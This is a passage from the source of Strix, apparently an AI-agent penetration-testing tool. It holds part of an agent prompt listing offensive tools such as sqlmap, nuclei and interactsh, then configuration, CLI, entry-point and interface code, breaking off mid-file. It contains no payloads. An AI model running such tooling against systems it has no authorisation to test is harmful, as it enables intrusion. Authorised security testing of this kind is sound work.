- httpx - HTTP probing and validation
- gospider - Web spider/crawler

VULNERABILITY ASSESSMENT:
- nuclei - Vulnerability scanner with templates
- sqlmap - SQL injection detection/exploitation
- trivy - Container/dependency vulnerability scanner
- zaproxy - OWASP ZAP web app scanner
- wapiti - Web vulnerability scanner

WEB FUZZING & DISCOVERY:
- ffuf - Fast web fuzzer
- dirsearch - Directory/file discovery
- katana - Advanced web crawler
- arjun - HTTP parameter discovery
- vulnx (cvemap) - CVE vulnerability mapping

JAVASCRIPT ANALYSIS:
- JS-Snooper, jsniper.sh - JS analysis scripts
- retire - Vulnerable JS library detection
- eslint, jshint - JS static analysis
- js-beautify - JS beautifier/deobfuscator

CODE ANALYSIS:
- semgrep - Static analysis/SAST
- bandit - Python security linter
- trufflehog - Secret detection in code

SPECIALIZED TOOLS:
- jwt_tool - JWT token manipulation
- wafw00f - WAF detection
- interactsh-client - OOB interaction testing

PROXY & INTERCEPTION:
- Caido CLI - Modern web proxy (already running). Used with proxy tool or with python tool (functions already imported).
- NOTE: If you are seeing proxy errors when sending requests, it usually means you are not sending requests to a correct url/host/port.
- Ignore Caido proxy-generated 50x HTML error pages; these are proxy issues (might happen when requesting a wrong host or SSL/TLS issues, etc).

PROGRAMMING:
- Python 3, Poetry, Go, Node.js/npm
- Full development environment
- Docker is NOT available inside the sandbox. Do not run docker; rely on provided tools to run locally.
- You can install any additional tools/packages needed based on the task/context using package managers (apt, pip, npm, go install, etc.)

Directories:
- /workspace - where you should work.
- /home/pentester/tools - Additional tool scripts
- /home/pentester/tools/wordlists - Currently empty, but you should download wordlists here when you need.

Default user: pentester (sudo available)
</environment>


<specialized_knowledge>

<{{ skill_name }}>
{{ get_skill(skill_name) }}
</{{ skill_name }}>

</specialized_knowledge>

```

## File: `strix/agents/StrixAgent/__init__.py`
```python
from .strix_agent import StrixAgent


__all__ = ["StrixAgent"]
```

## File: `strix/config/config.py`
```python
import contextlib
import json
import os
from pathlib import Path
from typing import Any


STRIX_API_BASE = "https://models.strix.ai/api/v1"


class Config:
    """Configuration Manager for Strix."""

    # LLM Configuration
    strix_llm = None
    llm_api_key = None
    llm_api_base = None
    openai_api_base = None
    litellm_base_url = None
    ollama_api_base = None
    strix_reasoning_effort = "high"
    strix_llm_max_retries = "5"
    strix_memory_compressor_timeout = "30"
    llm_timeout = "300"
    _LLM_CANONICAL_NAMES = (
        "strix_llm",
        "llm_api_key",
        "llm_api_base",
        "openai_api_base",
        "litellm_base_url",
        "ollama_api_base",
        "strix_reasoning_effort",
        "strix_llm_max_retries",
        "strix_memory_compressor_timeout",
        "llm_timeout",
    )

    # Tool & Feature Configuration
    perplexity_api_key = None
    strix_disable_browser = "false"

    # Runtime Configuration
    strix_image = "ghcr.io/usestrix/strix-sandbox:0.1.12"
    strix_runtime_backend = "docker"
    strix_sandbox_execution_timeout = "120"
    strix_sandbox_connect_timeout = "10"

    # Telemetry
    strix_telemetry = "1"
    strix_otel_telemetry = None
    strix_posthog_telemetry = None
    traceloop_base_url = None
    traceloop_api_key = None
    traceloop_headers = None

    # Config file override (set via --config CLI arg)
    _config_file_override: Path | None = None

    @classmethod
    def _tracked_names(cls) -> list[str]:
        return [
            k
            for k, v in vars(cls).items()
            if not k.startswith("_") and k[0].islower() and (v is None or isinstance(v, str))
        ]

    @classmethod
    def tracked_vars(cls) -> list[str]:
        return [name.upper() for name in cls._tracked_names()]

    @classmethod
    def _llm_env_vars(cls) -> set[str]:
        return {name.upper() for name in cls._LLM_CANONICAL_NAMES}

    @classmethod
    def _llm_env_changed(cls, saved_env: dict[str, Any]) -> bool:
        for var_name in cls._llm_env_vars():
            current = os.getenv(var_name)
            if current is None:
                continue
            if saved_env.get(var_name) != current:
                return True
        return False

    @classmethod
    def get(cls, name: str) -> str | None:
        env_name = name.upper()
        default = getattr(cls, name, None)
        return os.getenv(env_name, default)

    @classmethod
    def config_dir(cls) -> Path:
        return Path.home() / ".strix"

    @classmethod
    def config_file(cls) -> Path:
        if cls._config_file_override is not None:
            return cls._config_file_override
        return cls.config_dir() / "cli-config.json"

    @classmethod
    def load(cls) -> dict[str, Any]:
        path = cls.config_file()
        if not path.exists():
            return {}
        try:
            with path.open("r", encoding="utf-8") as f:
                data: dict[str, Any] = json.load(f)
                return data
        except (json.JSONDecodeError, OSError):
            return {}

    @classmethod
    def save(cls, config: dict[str, Any]) -> bool:
        try:
            cls.config_dir().mkdir(parents=True, exist_ok=True)
            config_path = cls.config_dir() / "cli-config.json"
            with config_path.open("w", encoding="utf-8") as f:
                json.dump(config, f, indent=2)
        except OSError:
            return False
        with contextlib.suppress(OSError):
            config_path.chmod(0o600)  # may fail on Windows
        return True

    @classmethod
    def apply_saved(cls, force: bool = False) -> dict[str, str]:
        saved = cls.load()
        env_vars = saved.get("env", {})
        if not isinstance(env_vars, dict):
            env_vars = {}
        cleared_vars = {
            var_name
            for var_name in cls.tracked_vars()
            if var_name in os.environ and os.environ.get(var_name) == ""
        }
        if cleared_vars:
            for var_name in cleared_vars:
                env_vars.pop(var_name, None)
            if cls._config_file_override is None:
                cls.save({"env": env_vars})
        if cls._llm_env_changed(env_vars):
            for var_name in cls._llm_env_vars():
                env_vars.pop(var_name, None)
            if cls._config_file_override is None:
                cls.save({"env": env_vars})
        applied = {}

        for var_name, var_value in env_vars.items():
            if var_name in cls.tracked_vars() and (force or var_name not in os.environ):
                os.environ[var_name] = var_value
                applied[var_name] = var_value

        return applied

    @classmethod
    def capture_current(cls) -> dict[str, Any]:
        env_vars = {}
        for var_name in cls.tracked_vars():
            value = os.getenv(var_name)
            if value:
                env_vars[var_name] = value
        return {"env": env_vars}

    @classmethod
    def save_current(cls) -> bool:
        existing = cls.load().get("env", {})
        merged = dict(existing)

        for var_name in cls.tracked_vars():
            value = os.getenv(var_name)
            if value is None:
                pass
            elif value == "":
                merged.pop(var_name, None)
            else:
                merged[var_name] = value

        return cls.save({"env": merged})


def apply_saved_config(force: bool = False) -> dict[str, str]:
    return Config.apply_saved(force=force)


def save_current_config() -> bool:
    return Config.save_current()


def resolve_llm_config() -> tuple[str | None, str | None, str | None]:
    """Resolve LLM model, api_key, and api_base based on STRIX_LLM prefix.

    Returns:
        tuple: (model_name, api_key, api_base)
        - model_name: Original model name (strix/ prefix preserved for display)
        - api_key: LLM API key
        - api_base: API base URL (auto-set to STRIX_API_BASE for strix/ models)
    """
    model = Config.get("strix_llm")
    if not model:
        return None, None, None

    api_key = Config.get("llm_api_key")

    if model.startswith("strix/"):
        api_base: str | None = STRIX_API_BASE
    else:
        api_base = (
            Config.get("llm_api_base")
            or Config.get("openai_api_base")
            or Config.get("litellm_base_url")
            or Config.get("ollama_api_base")
        )

    return model, api_key, api_base
```

## File: `strix/config/__init__.py`
```python
from strix.config.config import (
    Config,
    apply_saved_config,
    save_current_config,
)


__all__ = [
    "Config",
    "apply_saved_config",
    "save_current_config",
]
```

## File: `strix/interface/cli.py`
```python
import atexit
import signal
import sys
import threading
import time
from typing import Any

from rich.console import Console
from rich.live import Live
from rich.panel import Panel
from rich.text import Text

from strix.agents.StrixAgent import StrixAgent
from strix.llm.config import LLMConfig
from strix.telemetry.tracer import Tracer, set_global_tracer

from .utils import (
    build_live_stats_text,
    format_vulnerability_report,
)


async def run_cli(args: Any) -> None:  # noqa: PLR0915
    console = Console()

    start_text = Text()
    start_text.append("Penetration test initiated", style="bold #22c55e")

    target_text = Text()
    target_text.append("Target", style="dim")
    target_text.append("  ")
    if len(args.targets_info) == 1:
        target_text.append(args.targets_info[0]["original"], style="bold white")
    else:
        target_text.append(f"{len(args.targets_info)} targets", style="bold white")
        for target_info in args.targets_info:
            target_text.append("\n        ")
            target_text.append(target_info["original"], style="white")

    results_text = Text()
    results_text.append("Output", style="dim")
    results_text.append("  ")
    results_text.append(f"strix_runs/{args.run_name}", style="#60a5fa")

    note_text = Text()
    note_text.append("\n\n", style="dim")
    note_text.append("Vulnerabilities will be displayed in real-time.", style="dim")

    startup_panel = Panel(
        Text.assemble(
            start_text,
            "\n\n",
            target_text,
            "\n",
            results_text,
            note_text,
        ),
        title="[bold white]STRIX",
        title_align="left",
        border_style="#22c55e",
        padding=(1, 2),
    )

    console.print("\n")
    console.print(startup_panel)
    console.print()

    scan_mode = getattr(args, "scan_mode", "deep")

    scan_config = {
        "scan_id": args.run_name,
        "targets": args.targets_info,
        "user_instructions": args.instruction or "",
        "run_name": args.run_name,
    }

    llm_config = LLMConfig(scan_mode=scan_mode)
    agent_config = {
        "llm_config": llm_config,
        "max_iterations": 300,
    }

    if getattr(args, "local_sources", None):
        agent_config["local_sources"] = args.local_sources

    tracer = Tracer(args.run_name)
    tracer.set_scan_config(scan_config)

    def display_vulnerability(report: dict[str, Any]) -> None:
        report_id = report.get("id", "unknown")

        vuln_text = format_vulnerability_report(report)

        vuln_panel = Panel(
            vuln_text,
            title=f"[bold red]{report_id.upper()}",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )

        console.print(vuln_panel)
        console.print()

    tracer.vulnerability_found_callback = display_vulnerability

    def cleanup_on_exit() -> None:
        from strix.runtime import cleanup_runtime

        tracer.cleanup()
        cleanup_runtime()

    def signal_handler(_signum: int, _frame: Any) -> None:
        tracer.cleanup()
        sys.exit(1)

    atexit.register(cleanup_on_exit)
    signal.signal(signal.SIGINT, signal_handler)
    signal.signal(signal.SIGTERM, signal_handler)
    if hasattr(signal, "SIGHUP"):
        signal.signal(signal.SIGHUP, signal_handler)

    set_global_tracer(tracer)

    def create_live_status() -> Panel:
        status_text = Text()
        status_text.append("Penetration test in progress", style="bold #22c55e")
        status_text.append("\n\n")

        stats_text = build_live_stats_text(tracer, agent_config)
        if stats_text:
            status_text.append(stats_text)

        return Panel(
            status_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="#22c55e",
            padding=(1, 2),
        )

    try:
        console.print()

        with Live(
            create_live_status(), console=console, refresh_per_second=2, transient=False
        ) as live:
            stop_updates = threading.Event()

            def update_status() -> None:
                while not stop_updates.is_set():
                    try:
                        live.update(create_live_status())
                        time.sleep(2)
                    except Exception:  # noqa: BLE001
                        break

            update_thread = threading.Thread(target=update_status, daemon=True)
            update_thread.start()

            try:
                agent = StrixAgent(agent_config)
                result = await agent.execute_scan(scan_config)

                if isinstance(result, dict) and not result.get("success", True):
                    error_msg = result.get("error", "Unknown error")
                    error_details = result.get("details")
                    console.print()
                    console.print(f"[bold red]Penetration test failed:[/] {error_msg}")
                    if error_details:
                        console.print(f"[dim]{error_details}[/]")
                    console.print()
                    sys.exit(1)
            finally:
                stop_updates.set()
                update_thread.join(timeout=1)

    except Exception as e:
        console.print(f"[bold red]Error during penetration test:[/] {e}")
        raise

    if tracer.final_scan_result:
        console.print()

        final_report_text = Text()
        final_report_text.append("Penetration test summary", style="bold #60a5fa")

        final_report_panel = Panel(
            Text.assemble(
                final_report_text,
                "\n\n",
                tracer.final_scan_result,
            ),
            title="[bold white]STRIX",
            title_align="left",
            border_style="#60a5fa",
            padding=(1, 2),
        )

        console.print(final_report_panel)
        console.print()
```

## File: `strix/interface/main.py`
```python
#!/usr/bin/env python3
"""
Strix Agent Interface
"""

import argparse
import asyncio
import logging
import shutil
import sys
from pathlib import Path
from typing import Any

import litellm
from docker.errors import DockerException
from rich.console import Console
from rich.panel import Panel
from rich.text import Text

from strix.config import Config, apply_saved_config, save_current_config
from strix.config.config import resolve_llm_config
from strix.llm.utils import resolve_strix_model


apply_saved_config()

from strix.interface.cli import run_cli  # noqa: E402
from strix.interface.tui import run_tui  # noqa: E402
from strix.interface.utils import (  # noqa: E402
    assign_workspace_subdirs,
    build_final_stats_text,
    check_docker_connection,
    clone_repository,
    collect_local_sources,
    generate_run_name,
    image_exists,
    infer_target_type,
    process_pull_line,
    rewrite_localhost_targets,
    validate_config_file,
    validate_llm_response,
)
from strix.runtime.docker_runtime import HOST_GATEWAY_HOSTNAME  # noqa: E402
from strix.telemetry import posthog  # noqa: E402
from strix.telemetry.tracer import get_global_tracer  # noqa: E402


logging.getLogger().setLevel(logging.ERROR)


def validate_environment() -> None:  # noqa: PLR0912, PLR0915
    console = Console()
    missing_required_vars = []
    missing_optional_vars = []

    strix_llm = Config.get("strix_llm")
    uses_strix_models = strix_llm and strix_llm.startswith("strix/")

    if not strix_llm:
        missing_required_vars.append("STRIX_LLM")

    has_base_url = uses_strix_models or any(
        [
            Config.get("llm_api_base"),
            Config.get("openai_api_base"),
            Config.get("litellm_base_url"),
            Config.get("ollama_api_base"),
        ]
    )

    if not Config.get("llm_api_key"):
        missing_optional_vars.append("LLM_API_KEY")

    if not has_base_url:
        missing_optional_vars.append("LLM_API_BASE")

    if not Config.get("perplexity_api_key"):
        missing_optional_vars.append("PERPLEXITY_API_KEY")

    if not Config.get("strix_reasoning_effort"):
        missing_optional_vars.append("STRIX_REASONING_EFFORT")

    if missing_required_vars:
        error_text = Text()
        error_text.append("MISSING REQUIRED ENVIRONMENT VARIABLES", style="bold red")
        error_text.append("\n\n", style="white")

        for var in missing_required_vars:
            error_text.append(f"• {var}", style="bold yellow")
            error_text.append(" is not set\n", style="white")

        if missing_optional_vars:
            error_text.append("\nOptional environment variables:\n", style="dim white")
            for var in missing_optional_vars:
                error_text.append(f"• {var}", style="dim yellow")
                error_text.append(" is not set\n", style="dim white")

        error_text.append("\nRequired environment variables:\n", style="white")
        for var in missing_required_vars:
            if var == "STRIX_LLM":
                error_text.append("• ", style="white")
                error_text.append("STRIX_LLM", style="bold cyan")
                error_text.append(
                    " - Model name to use with litellm (e.g., 'openai/gpt-5')\n",
                    style="white",
                )

        if missing_optional_vars:
            error_text.append("\nOptional environment variables:\n", style="white")
            for var in missing_optional_vars:
                if var == "LLM_API_KEY":
                    error_text.append("• ", style="white")
                    error_text.append("LLM_API_KEY", style="bold cyan")
                    error_text.append(
                        " - API key for the LLM provider "
                        "(not needed for local models, Vertex AI, AWS, etc.)\n",
                        style="white",
                    )
                elif var == "LLM_API_BASE":
                    error_text.append("• ", style="white")
                    error_text.append("LLM_API_BASE", style="bold cyan")
                    error_text.append(
                        " - Custom API base URL if using local models (e.g., Ollama, LMStudio)\n",
                        style="white",
                    )
                elif var == "PERPLEXITY_API_KEY":
                    error_text.append("• ", style="white")
                    error_text.append("PERPLEXITY_API_KEY", style="bold cyan")
                    error_text.append(
                        " - API key for Perplexity AI web search (enables real-time research)\n",
                        style="white",
                    )
                elif var == "STRIX_REASONING_EFFORT":
                    error_text.append("• ", style="white")
                    error_text.append("STRIX_REASONING_EFFORT", style="bold cyan")
                    error_text.append(
                        " - Reasoning effort level: none, minimal, low, medium, high, xhigh "
                        "(default: high)\n",
                        style="white",
                    )

        error_text.append("\nExample setup:\n", style="white")
        if uses_strix_models:
            error_text.append("export STRIX_LLM='strix/gpt-5'\n", style="dim white")
        else:
            error_text.append("export STRIX_LLM='openai/gpt-5'\n", style="dim white")

        if missing_optional_vars:
            for var in missing_optional_vars:
                if var == "LLM_API_KEY":
                    error_text.append(
                        "export LLM_API_KEY='[REDACTED_API_KEY]'  "
                        "# not needed for local models, Vertex AI, AWS, etc.\n",
                        style="dim white",
                    )
                elif var == "LLM_API_BASE":
                    error_text.append(
                        "export LLM_API_BASE='http://localhost:11434'  "
                        "# needed for local models only\n",
                        style="dim white",
                    )
                elif var == "PERPLEXITY_API_KEY":
                    error_text.append(
                        "export PERPLEXITY_API_KEY='[REDACTED_API_KEY]'\n", style="dim white"
                    )
                elif var == "STRIX_REASONING_EFFORT":
                    error_text.append(
                        "export STRIX_REASONING_EFFORT='high'\n",
                        style="dim white",
                    )

        panel = Panel(
            error_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )

        console.print("\n")
        console.print(panel)
        console.print()
        sys.exit(1)


def check_docker_installed() -> None:
    if shutil.which("docker") is None:
        console = Console()
        error_text = Text()
        error_text.append("DOCKER NOT INSTALLED", style="bold red")
        error_text.append("\n\n", style="white")
        error_text.append("The 'docker' CLI was not found in your PATH.\n", style="white")
        error_text.append(
            "Please install Docker and ensure the 'docker' command is available.\n\n", style="white"
        )

        panel = Panel(
            error_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )
        console.print("\n", panel, "\n")
        sys.exit(1)


async def warm_up_llm() -> None:
    console = Console()

    try:
        model_name, api_key, api_base = resolve_llm_config()
        litellm_model, _ = resolve_strix_model(model_name)
        litellm_model = litellm_model or model_name

        test_messages = [
            {"role": "system", "content": "You are a helpful assistant."},
            {"role": "user", "content": "Reply with just 'OK'."},
        ]

        llm_timeout = int(Config.get("llm_timeout") or "300")

        completion_kwargs: dict[str, Any] = {
            "model": litellm_model,
            "messages": test_messages,
            "timeout": llm_timeout,
        }
        if api_key:
            completion_kwargs["api_key"] = api_key
        if api_base:
            completion_kwargs["api_base"] = api_base

        response = litellm.completion(**completion_kwargs)

        validate_llm_response(response)

    except Exception as e:  # noqa: BLE001
        error_text = Text()
        error_text.append("LLM CONNECTION FAILED", style="bold red")
        error_text.append("\n\n", style="white")
        error_text.append("Could not establish connection to the language model.\n", style="white")
        error_text.append("Please check your configuration and try again.\n", style="white")
        error_text.append(f"\nError: {e}", style="dim white")

        panel = Panel(
            error_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )

        console.print("\n")
        console.print(panel)
        console.print()
        sys.exit(1)


def get_version() -> str:
    try:
        from importlib.metadata import version

        return version("strix-agent")
    except Exception:  # noqa: BLE001
        return "unknown"


def parse_arguments() -> argparse.Namespace:
    parser = argparse.ArgumentParser(
        description="Strix Multi-Agent Cybersecurity Penetration Testing Tool",
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog="""
Examples:
  # Web application penetration test
  strix --target https://example.com

  # GitHub repository analysis
  strix --target https://github.com/user/repo
  strix --target git@github.com:user/repo.git

  # Local code analysis
  strix --target ./my-project

  # Domain penetration test
  strix --target example.com

  # IP address penetration test
  strix --target 192.168.1.42

  # Multiple targets (e.g., white-box testing with source and deployed app)
  strix --target https://github.com/user/repo --target https://example.com
  strix --target ./my-project --target https://staging.example.com --target https://prod.example.com

  # Custom instructions (inline)
  strix --target example.com --instruction "Focus on authentication vulnerabilities"

  # Custom instructions (from file)
  strix --target example.com --instruction-file ./instructions.txt
  strix --target https://app.com --instruction-file /path/to/detailed_instructions.md
        """,
    )

    parser.add_argument(
        "-v",
        "--version",
        action="version",
        version=f"strix {get_version()}",
    )

    parser.add_argument(
        "-t",
        "--target",
        type=str,
        required=True,
        action="append",
        help="Target to test (URL, repository, local directory path, domain name, or IP address). "
        "Can be specified multiple times for multi-target scans.",
    )
    parser.add_argument(
        "--instruction",
        type=str,
        help="Custom instructions for the penetration test. This can be "
        "specific vulnerability types to focus on (e.g., 'Focus on IDOR and XSS'), "
        "testing approaches (e.g., 'Perform thorough authentication testing'), "
        "test credentials (e.g., 'Use the following credentials to access the app: "
        "admin:password123'), "
        "or areas of interest (e.g., 'Check login API endpoint for security issues').",
    )

    parser.add_argument(
        "--instruction-file",
        type=str,
        help="Path to a file containing detailed custom instructions for the penetration test. "
        "Use this option when you have lengthy or complex instructions saved in a file "
        "(e.g., '--instruction-file ./detailed_instructions.txt').",
    )

    parser.add_argument(
        "-n",
        "--non-interactive",
        action="store_true",
        help=(
            "Run in non-interactive mode (no TUI, exits on completion). "
            "Default is interactive mode with TUI."
        ),
    )

    parser.add_argument(
        "-m",
        "--scan-mode",
        type=str,
        choices=["quick", "standard", "deep"],
        default="deep",
        help=(
            "Scan mode: "
            "'quick' for fast CI/CD checks, "
            "'standard' for routine testing, "
            "'deep' for thorough security reviews (default). "
            "Default: deep."
        ),
    )

    parser.add_argument(
        "--config",
        type=str,
        help="Path to a custom config file (JSON) to use instead of ~/.strix/cli-config.json",
    )

    args = parser.parse_args()

    if args.instruction and args.instruction_file:
        parser.error(
            "Cannot specify both --instruction and --instruction-file. Use one or the other."
        )

    if args.instruction_file:
        instruction_path = Path(args.instruction_file)
        try:
            with instruction_path.open(encoding="utf-8") as f:
                args.instruction = f.read().strip()
                if not args.instruction:
                    parser.error(f"Instruction file '{instruction_path}' is empty")
        except Exception as e:  # noqa: BLE001
            parser.error(f"Failed to read instruction file '{instruction_path}': {e}")

    args.targets_info = []
    for target in args.target:
        try:
            target_type, target_dict = infer_target_type(target)

            if target_type == "local_code":
                display_target = target_dict.get("target_path", target)
            else:
                display_target = target

            args.targets_info.append(
                {"type": target_type, "details": target_dict, "original": display_target}
            )
        except ValueError:
            parser.error(f"Invalid target '{target}'")

    assign_workspace_subdirs(args.targets_info)
    rewrite_localhost_targets(args.targets_info, HOST_GATEWAY_HOSTNAME)

    return args


def display_completion_message(args: argparse.Namespace, results_path: Path) -> None:
    console = Console()
    tracer = get_global_tracer()

    scan_completed = False
    if tracer and tracer.scan_results:
        scan_completed = tracer.scan_results.get("scan_completed", False)

    completion_text = Text()
    if scan_completed:
        completion_text.append("Penetration test completed", style="bold #22c55e")
    else:
        completion_text.append("SESSION ENDED", style="bold #eab308")

    target_text = Text()
    target_text.append("Target", style="dim")
    target_text.append("  ")
    if len(args.targets_info) == 1:
        target_text.append(args.targets_info[0]["original"], style="bold white")
    else:
        target_text.append(f"{len(args.targets_info)} targets", style="bold white")
        for target_info in args.targets_info:
            target_text.append("\n        ")
            target_text.append(target_info["original"], style="white")

    stats_text = build_final_stats_text(tracer)

    panel_parts = [completion_text, "\n\n", target_text]

    if stats_text.plain:
        panel_parts.extend(["\n", stats_text])

    results_text = Text()
    results_text.append("\n")
    results_text.append("Output", style="dim")
    results_text.append("  ")
    results_text.append(str(results_path), style="#60a5fa")
    panel_parts.extend(["\n", results_text])

    panel_content = Text.assemble(*panel_parts)

    border_style = "#22c55e" if scan_completed else "#eab308"

    panel = Panel(
        panel_content,
        title="[bold white]STRIX",
        title_align="left",
        border_style=border_style,
        padding=(1, 2),
    )

    console.print("\n")
    console.print(panel)
    console.print()
    console.print("[#60a5fa]models.strix.ai[/]  [dim]·[/]  [#60a5fa]discord.gg/strix-ai[/]")
    console.print()


def pull_docker_image() -> None:
    console = Console()
    client = check_docker_connection()

    if image_exists(client, Config.get("strix_image")):  # type: ignore[arg-type]
        return

    console.print()
    console.print(f"[dim]Pulling image[/] {Config.get('strix_image')}")
    console.print("[dim yellow]This only happens on first run and may take a few minutes...[/]")
    console.print()

    with console.status("[bold cyan]Downloading image layers...", spinner="dots") as status:
        try:
            layers_info: dict[str, str] = {}
            last_update = ""

            for line in client.api.pull(Config.get("strix_image"), stream=True, decode=True):
                last_update = process_pull_line(line, layers_info, status, last_update)

        except DockerException as e:
            console.print()
            error_text = Text()
            error_text.append("FAILED TO PULL IMAGE", style="bold red")
            error_text.append("\n\n", style="white")
            error_text.append(f"Could not download: {Config.get('strix_image')}\n", style="white")
            error_text.append(str(e), style="dim red")

            panel = Panel(
                error_text,
                title="[bold white]STRIX",
                title_align="left",
                border_style="red",
                padding=(1, 2),
            )
            console.print(panel, "\n")
            sys.exit(1)

    success_text = Text()
    success_text.append("Docker image ready", style="#22c55e")
    console.print(success_text)
    console.print()


def apply_config_override(config_path: str) -> None:
    Config._config_file_override = validate_config_file(config_path)
    apply_saved_config(force=True)


def persist_config() -> None:
    if Config._config_file_override is None:
        save_current_config()


def main() -> None:
    if sys.platform == "win32":
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())

    args = parse_arguments()

    if args.config:
        apply_config_override(args.config)

    check_docker_installed()
    pull_docker_image()

    validate_environment()
    asyncio.run(warm_up_llm())

    persist_config()

    args.run_name = generate_run_name(args.targets_info)

    for target_info in args.targets_info:
        if target_info["type"] == "repository":
            repo_url = target_info["details"]["target_repo"]
            dest_name = target_info["details"].get("workspace_subdir")
            cloned_path = clone_repository(repo_url, args.run_name, dest_name)
            target_info["details"]["cloned_repo_path"] = cloned_path

    args.local_sources = collect_local_sources(args.targets_info)

    is_whitebox = bool(args.local_sources)

    posthog.start(
        model=Config.get("strix_llm"),
        scan_mode=args.scan_mode,
        is_whitebox=is_whitebox,
        interactive=not args.non_interactive,
        has_instructions=bool(args.instruction),
    )

    exit_reason = "user_exit"
    try:
        if args.non_interactive:
            asyncio.run(run_cli(args))
        else:
            asyncio.run(run_tui(args))
    except KeyboardInterrupt:
        exit_reason = "interrupted"
    except Exception as e:
        exit_reason = "error"
        posthog.error("unhandled_exception", str(e))
        raise
    finally:
        tracer = get_global_tracer()
        if tracer:
            posthog.end(tracer, exit_reason=exit_reason)

    results_path = Path("strix_runs") / args.run_name
    display_completion_message(args, results_path)

    if args.non_interactive:
        tracer = get_global_tracer()
        if tracer and tracer.vulnerability_reports:
            sys.exit(2)


if __name__ == "__main__":
    main()
```

## File: `strix/interface/streaming_parser.py`
```python
import html
import re
from dataclasses import dataclass
from typing import Literal

from strix.llm.utils import normalize_tool_format


_FUNCTION_TAG_PREFIX = "<function="
_INVOKE_TAG_PREFIX = "<invoke "

_FUNC_PATTERN = re.compile(r"<function=([^>]+)>")
_FUNC_END_PATTERN = re.compile(r"</function>")
_COMPLETE_PARAM_PATTERN = re.compile(r"<parameter=([^>]+)>(.*?)</parameter>", re.DOTALL)
_INCOMPLETE_PARAM_PATTERN = re.compile(r"<parameter=([^>]+)>(.*)$", re.DOTALL)


def _get_safe_content(content: str) -> tuple[str, str]:
    if not content:
        return "", ""

    last_lt = content.rfind("<")
    if last_lt == -1:
        return content, ""

    suffix = content[last_lt:]

    if _FUNCTION_TAG_PREFIX.startswith(suffix) or _INVOKE_TAG_PREFIX.startswith(suffix):
        return content[:last_lt], suffix

    return content, ""


@dataclass
class StreamSegment:
    type: Literal["text", "tool"]
    content: str
    tool_name: str | None = None
    args: dict[str, str] | None = None
    is_complete: bool = False


def parse_streaming_content(content: str) -> list[StreamSegment]:
    if not content:
        return []

    content = normalize_tool_format(content)

    segments: list[StreamSegment] = []

    func_matches = list(_FUNC_PATTERN.finditer(content))

    if not func_matches:
        safe_content, _ = _get_safe_content(content)
        text = safe_content.strip()
        if text:
            segments.append(StreamSegment(type="text", content=text))
        return segments

    first_func_start = func_matches[0].start()
    if first_func_start > 0:
        text_before = content[:first_func_start].strip()
        if text_before:
            segments.append(StreamSegment(type="text", content=text_before))

    for i, match in enumerate(func_matches):
        tool_name = match.group(1)
        func_start = match.end()

        func_end_match = _FUNC_END_PATTERN.search(content, func_start)

        if func_end_match:
            func_body = content[func_start : func_end_match.start()]
            is_complete = True
            end_pos = func_end_match.end()
        else:
            if i + 1 < len(func_matches):
                next_func_start = func_matches[i + 1].start()
                func_body = content[func_start:next_func_start]
            else:
                func_body = content[func_start:]
            is_complete = False
            end_pos = len(content)

        args = _parse_streaming_params(func_body)

        segments.append(
            StreamSegment(
                type="tool",
                content=func_body,
                tool_name=tool_name,
                args=args,
                is_complete=is_complete,
            )
        )

        if is_complete and i + 1 < len(func_matches):
            next_start = func_matches[i + 1].start()
            text_between = content[end_pos:next_start].strip()
            if text_between:
                segments.append(StreamSegment(type="text", content=text_between))

    return segments


def _parse_streaming_params(func_body: str) -> dict[str, str]:
    args: dict[str, str] = {}

    complete_matches = list(_COMPLETE_PARAM_PATTERN.finditer(func_body))
    complete_end_pos = 0

    for match in complete_matches:
        param_name = match.group(1)
        param_value = html.unescape(match.group(2).strip())
        args[param_name] = param_value
        complete_end_pos = max(complete_end_pos, match.end())

    remaining = func_body[complete_end_pos:]
    incomplete_match = _INCOMPLETE_PARAM_PATTERN.search(remaining)
    if incomplete_match:
        param_name = incomplete_match.group(1)
        param_value = html.unescape(incomplete_match.group(2).strip())
        args[param_name] = param_value

    return args
```

## File: `strix/interface/tui.py`
```python
import argparse
import asyncio
import atexit
import logging
import signal
import sys
import threading
from collections.abc import Callable
from importlib.metadata import PackageNotFoundError
from importlib.metadata import version as pkg_version
from typing import TYPE_CHECKING, Any, ClassVar


if TYPE_CHECKING:
    from textual.timer import Timer

from rich.align import Align
from rich.console import Group
from rich.panel import Panel
from rich.style import Style
from rich.text import Text
from textual import events, on
from textual.app import App, ComposeResult
from textual.binding import Binding
from textual.containers import Grid, Horizontal, Vertical, VerticalScroll
from textual.reactive import reactive
from textual.screen import ModalScreen
from textual.widgets import Button, Label, Static, TextArea, Tree
from textual.widgets.tree import TreeNode

from strix.agents.StrixAgent import StrixAgent
from strix.interface.streaming_parser import parse_streaming_content
from strix.interface.tool_components.agent_message_renderer import AgentMessageRenderer
from strix.interface.tool_components.registry import get_tool_renderer
from strix.interface.tool_components.user_message_renderer import UserMessageRenderer
from strix.interface.utils import build_tui_stats_text
from strix.llm.config import LLMConfig
from strix.telemetry.tracer import Tracer, set_global_tracer


logger = logging.getLogger(__name__)


def get_package_version() -> str:
    try:
        return pkg_version("strix-agent")
    except PackageNotFoundError:
        return "dev"


class ChatTextArea(TextArea):  # type: ignore[misc]
    def __init__(self, *args: Any, **kwargs: Any) -> None:
        super().__init__(*args, **kwargs)
        self._app_reference: StrixTUIApp | None = None

    def set_app_reference(self, app: "StrixTUIApp") -> None:
        self._app_reference = app

    def on_mount(self) -> None:
        self._update_height()

    def _on_key(self, event: events.Key) -> None:
        if event.key == "shift+enter":
            self.insert("\n")
            event.prevent_default()
            return

        if event.key == "enter" and self._app_reference:
            text_content = str(self.text)  # type: ignore[has-type]
            message = text_content.strip()
            if message:
                self.text = ""

                self._app_reference._send_user_message(message)

                event.prevent_default()
                return

        super()._on_key(event)

    @on(TextArea.Changed)  # type: ignore[misc]
    def _update_height(self, _event: TextArea.Changed | None = None) -> None:
        if not self.parent:
            return

        line_count = self.document.line_count
        target_lines = min(max(1, line_count), 8)

        new_height = target_lines + 2

        if self.parent.styles.height != new_height:
            self.parent.styles.height = new_height
            self.scroll_cursor_visible()


